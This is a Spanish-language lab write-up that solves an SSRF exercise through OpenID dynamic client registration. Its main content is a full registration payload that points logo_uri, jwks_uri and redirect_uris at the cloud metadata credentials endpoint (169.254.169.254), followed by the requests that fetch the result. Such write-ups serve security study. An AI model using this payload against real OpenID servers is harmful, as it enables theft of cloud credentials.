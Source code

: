 ```yaml
---
layout: default
title: 2 - SSRF via OpenID dynamic client registration
---
```

```
/.well-known/oauth-authorization-server
/.well-known/openid-configuration
/.well-known/jwks.json
```

Para saber si se está usando openid tiene que estar en el scope.
Además se tiene que recibir en la respuesta un id_token.

___

En este lab `/openid/register` está expuesto y es posible usarlo para registrar a un cliente (aplicación que quiere usar el servicio de oauth) con `logo_uri` ,`jwks_uri` y `redirect_uris` maliciosas, que apunten a servicios internos -> SSRF

Estamos ante **Authorization Code Grant Type** (response_type=code) :

Accedemos a `https://oauth-0aba000a03d782bf807db517023200c5.oauth-server.net/.well-known/openid-configuration`

Nos tira que el endpoint de registro está en `https://oauth-0aba000a03d782bf807db517023200c5.oauth-server.net/reg`

Enviamos un POST con este body

```json
{
  "application_type": "web",
  "redirect_uris": [
    "http://169.254.169.254/latest/meta-data/iam/security-credentials/admin/",
    "http://169.254.169.254/latest/meta-data/iam/security-credentials/admin/"
  ],
  "client_name": "Example OIDC Client",
  "logo_uri": "http://169.254.169.254/latest/meta-data/iam/security-credentials/admin/",
  "token_endpoint_auth_method": "client_secret_basic",
  "grant_types": ["authorization_code", "refresh_token"],
  "response_types": ["code"],
  "scope": "openid email profile",
  "jwks_uri": "http://169.254.169.254/latest/meta-data/iam/security-credentials/admin/",
  "userinfo_signed_response_alg": "RS256",
  "id_token_signed_response_alg": "RS256"
}
```

Con este hemos creado un nuevo cliente, podemos loguearnos a ese cliente :

```
https://oauth-0aba000a03d782bf807db517023200c5.oauth-server.net/auth?client_id=kzkmrumn1lo2041pfbjtr&redirect_uri=http://169.254.169.254/latest/meta-data/iam/security-credentials/admin/&response_type=code&scope=openid%20profile%20email
```

Para que nos cargue el loco internamente al confirmar el login en opeind .

O podemos acceder al logo del cliente directamente :

```HTTP
GET /client/CLIENT-ID/logo
```
